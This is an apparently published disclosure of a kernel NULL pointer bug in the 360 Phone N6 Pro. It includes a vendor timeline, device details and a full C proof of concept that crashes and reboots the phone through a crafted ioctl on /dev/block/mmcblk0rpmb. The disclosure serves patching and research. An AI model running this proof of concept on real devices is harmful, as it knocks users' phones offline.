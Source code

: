 # 360 Phone N6 Pro Kernel Vuln
These page show the details of the vulnerability found in 360 Phone N6 Pro. I reported these bugs to src@alarm.360.cn on On 5/4/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Qiku Tec. does not have an advisory page for phone products at the moment. I think it is a must to list the detailed infomation here.

## Time Line
 * 5/4/2018 Bugs were reported to src@alarm.360.cn.
 * 5/14/2018 Qiku Tec. got confirmation that the bug could cause kernel crash.
 * 07/14/2018 Qiku Tec. had started updating 360 N6 Pro with the security patches.
 
### Abstract
 
* Name: 360 Phone N6 Pro
* Model: 1801-A01
* Date: 2018-10-15
* Reporter: Shuaibing Lu
* Vendor: http://www.qiku.com/product/n6p/index.html
* Product Link: http://www.qiku.com/product/n6p/index.html
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64

### Description

Kernel module in the kernel component of 360 Phone N6 Pro V096 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/block/mmcblk0rpmb with the command **3235427072** and cause a kernel crash.

### POC

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/block/mmcblk0rpmb";
static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {
int fd = 0;
fd = open(driver, O_RDWR);
if (fd < 0) {
printf("Failed to open %s, with errno %dn", driver, errno);
system("echo 1 > /data/local/tmp/log");
return -1;
}

printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
printf("System will crash and reboot.n");
if(ioctl(fd, command, NULL) < 0) {
printf("Allocation of structs failed, %dn", errno);
system("echo 2 > /data/local/tmp/log");
return -1;
}
close(fd);
return 0;
}
```
### References
[360 Phone N6 pro](http://www.qiku.com/product/n6p/index.html)
